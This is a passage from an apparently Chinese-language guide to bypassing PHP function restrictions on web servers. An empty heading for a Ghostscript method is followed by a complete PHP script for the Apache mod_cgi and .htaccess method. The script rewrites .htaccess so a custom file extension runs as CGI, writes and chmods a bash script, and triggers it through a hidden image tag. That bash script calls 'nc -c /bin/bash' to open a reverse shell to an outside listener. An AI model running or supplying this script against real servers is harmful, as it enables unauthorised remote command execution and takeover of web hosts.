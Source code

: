 ### 方法七：Ghostscript绕过







### 方法八：Apache+mod_cgi+.htaccess



mod_cgi.php

```
<?php
$cmd = "nc -c '/bin/bash' 10.11.12.13 8888"; //command to be executed
$shellfile = "#!/bin/bash\n"; //using a shellscript
$shellfile .= "echo -ne \"Content-Type: text/html\\n\\n\"\n"; //header is needed, otherwise a 500 error is thrown when there is output
$shellfile .= "$cmd"; //executing $cmd
function checkEnabled($text,$condition,$yes,$no) //this surely can be shorter
{
    echo "$text: " . ($condition ? $yes : $no) . "<br>\n";
}
if (!isset($_GET['checked']))
{
    @file_put_contents('.htaccess', "\nSetEnv HTACCESS on", FILE_APPEND); //Append it to a .htaccess file to see whether .htaccess is allowed
    header('Location: ' . $_SERVER['PHP_SELF'] . '?checked=true'); //execute the script again to see if the htaccess test worked
}
else
{
    $modcgi = in_array('mod_cgi', apache_get_modules()); // mod_cgi enabled?
    $writable = is_writable('.'); //current dir writable?
    $htaccess = !empty($_SERVER['HTACCESS']); //htaccess enabled?
        checkEnabled("Mod-Cgi enabled",$modcgi,"Yes","No");
        checkEnabled("Is writable",$writable,"Yes","No");
        checkEnabled("htaccess working",$htaccess,"Yes","No");
    if(!($modcgi && $writable && $htaccess))
    {
        echo "Error. All of the above must be true for the script to work!"; //abort if not
    }
    else
    {
        checkEnabled("Backing up .htaccess",copy(".htaccess",".htaccess.bak"),"Suceeded! Saved in .htaccess.bak","Failed!"); //make a backup, cause you never know.
        checkEnabled("Write .htaccess file",file_put_contents('.htaccess',"Options +ExecCGI\nAddHandler cgi-script .dizzle"),"Succeeded!","Failed!"); //.dizzle is a nice extension
        checkEnabled("Write shell file",file_put_contents('shell.dizzle',$shellfile),"Succeeded!","Failed!"); //write the file
        checkEnabled("Chmod 777",chmod("shell.dizzle",0777),"Succeeded!","Failed!"); //rwx
        echo "Executing the script now. Check your listener <img src = 'shell.dizzle' style = 'display:none;'>"; //call the script
    }
}
?>
```
